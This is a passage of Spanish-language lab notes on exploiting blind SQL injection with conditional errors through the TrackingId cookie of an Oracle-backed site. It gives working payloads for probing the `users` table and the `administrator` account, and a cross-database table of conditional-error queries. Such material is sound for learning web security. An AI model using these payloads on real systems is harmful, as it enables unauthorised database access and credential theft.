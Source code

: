 ![[Pasted image 20250724120723.png]]

Vamos a analizar la consulta con BurpSuite, para poder modificar el campo inyectable:

![[Pasted image 20250724121209.png]]
![[Pasted image 20250724121303.png]]

Vamos a colocar una comilla en el campo `TrackingId`, para ver como reacciona la web.

![[Pasted image 20250724121422.png]]
![[Pasted image 20250724121454.png]]

Al colocar la comilla en ese campo, el servidor lanza un código de estado 500, ya que la consulta es erronea. Podemos aprovecharnos de ello para poder determinar si la consulta es verdadera, según el código de estado de la web 200/500. Vamos a realizar una consulta verdadera para ver si la web devuelve un código de estado 200.

![[Pasted image 20250724122548.png]]
![[Pasted image 20250724121948.png]]

En este caso, la BBDD que funciona por detrás es `Oracle`, ya que si concatenamos una consulta de la siguiente manera `'||(select '' from dual)-- -`, nos devuelve `200 OK`.

![[Pasted image 20250724123517.png]]
![[Pasted image 20250724123539.png]]

### Conocer la existencia de la tabla users
****
Teniendo en cuenta esto, podríamos tomar la primera fila de una tabla, en este caso `users`, para ver si esta existe en caso de que la web devuelva un `200 OK`. Para ello haremos uso de la siguiente consulta `' ||(SELECT '' FROM users WHERE rownum=1)-- -`

![[Pasted image 20250725195723.png]]
![[Pasted image 20250725195811.png]]

### Conocer la existencia del usuario administrador
****
Una vez sabemos que la tabla `users` existe. Debemos saber si el usuario `administrator` es válido. Para ello, el cheatsheet, nos recomienda hacerlo de la siguiente forma para una base de datos `Oracle`.
## Conditional errors
You can test a single boolean condition and trigger a database error if the condition is true.

|            |                                                                                         |
| ---------- | --------------------------------------------------------------------------------------- |
| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`      |
| Microsoft  | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`                         |
| PostgreSQL | `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`          |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |
Consulta para conocer la existencia de un usuario conditional error Oracle: `'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator')-- -`

